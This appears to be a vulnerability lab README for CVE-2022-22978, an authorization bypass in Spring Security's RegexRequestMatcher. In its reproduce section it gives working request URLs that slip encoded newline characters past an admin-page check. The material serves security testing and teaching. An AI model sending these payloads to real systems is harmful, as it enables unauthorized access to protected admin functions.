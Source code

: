 # CVE-2022-22978: Authorization Bypass in RegexRequestMatcher

In Spring Security versions 5.5.6 and 5.6.3 and older unsupported versions, RegexRequestMatcher can easily be misconfigured to be bypassed on some servlet containers.

Applications using RegexRequestMatcher with `.` in the regular expression are possibly vulnerable to an authorization bypass.

References:

- <https://tanzu.vmware.com/security/cve-2022-22978>
- <https://github.com/DeEpinGh0st/CVE-2022-22978>

## Vulnerability Environment

After server is started, browse to `http://your-ip:8080/admin` to see that access to the admin page is blocked.

![](forbidden.png)

## Vulnerability Reproduce

Send the following request to access the admin page:
http://your-ip:8080/admin/%0atest
http://your-ip:8080/admin/%0dtest

![](bypassed.png)
